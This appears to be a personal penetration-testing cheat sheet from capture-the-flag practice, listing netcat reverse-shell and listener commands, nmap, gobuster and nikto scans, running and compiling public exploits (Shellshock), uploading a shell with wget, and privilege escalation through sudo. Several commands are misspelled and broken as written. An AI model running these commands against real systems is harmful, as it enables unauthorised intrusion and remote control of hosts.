 # don-t-forget
For us to easily remember the things we forgot
netcad 
nc -nvlp port for listening ports wich is we wanna use that
next type id next ls or pwd
nc -e /bin/bash host and port when we enter system 
nmap:
nmap -sS -A -v -p --min-rate 99999 host 
nmap -p- -sV port scanning ant its version
nmap -sV -sC -v From your scans, what version is FTP running on the target?

when the site open u must use /robots.txt
/cgi-bin/
/cgi-bin/user.sh

gobuster:
gobuster dir -u http://host -w /usr/share/worldlists/dirbuster/directory-list-2.3-medium.txt -x .ph,.txt,.conf,.doc,.sh

nikto -h host

searcsploit (shell shock) -m
vim (payload extension)

if u have a payload for ex
python 34900.py rhost=ip(host) lhost=ip(host) payload=reverse(or bind)

we can compile exploit wirth gcc
gcc -o exploit 44298.c 
and ls 


python -m SimpleHHTPServer 80

chmod +x exploit for giving a permission(x using execute)

msfconsole
set rpath /cgi-bin/user.sh

sudo -l say to us u can run this commands

wget for upload shell

sudo -u scriptmanager /bib/bash this means u get a scriptmanager rank

next time ls -la shows to us permission  

 
 
 
smbclient -L \\\\172.16.27.132 -U 'administrator' What is the tool we use to connect to SMB shares from our Linux distribution? 
